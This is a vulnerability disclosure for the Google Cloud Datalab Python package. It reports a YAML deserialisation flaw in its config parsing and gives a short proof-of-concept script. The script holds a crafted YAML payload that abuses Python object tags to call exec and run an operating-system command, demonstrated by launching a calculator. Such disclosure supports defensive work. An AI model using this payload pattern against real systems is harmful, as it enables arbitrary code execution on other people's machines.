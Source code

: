 # Description

Google Cloud Datalab Python package. Used in Google Cloud Datalab and can be used in Jupyter Notebook.
This adds a number of Python modules such as google.datalab.bigquery, google.datalab.storage, etc, for accessing Google Cloud Platform services as well as adding some new cell magics such as %chart, %bigquery, %storage, etc.
See https://github.com/googledatalab/notebooks for samples of using this package.

# Vulnerability discription

Vulnerable to yaml deserilisation attack caused by unsafe loading.
# Proof of Concept
1. run exploit.py using ipython or jupyter notepad
```python
# exploit.py
import os
os.system('pip install datalab')
import datalab.utils.commands._utils as _utils 
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
_utils.parse_config(exploit ,None)
```
* running exploit through native python3/puthon2 causes error as the datalab is intended to run in jupyter notebook / ipython3/ipython 

![](https://cdn.discordapp.com/attachments/789769803770494996/791656913799872532/Screenshot_from_2020-12-24_18-41-16.png)
![](https://cdn.discordapp.com/attachments/789769803770494996/791656941586874398/Screenshot_from_2020-12-24_18-39-43.png)
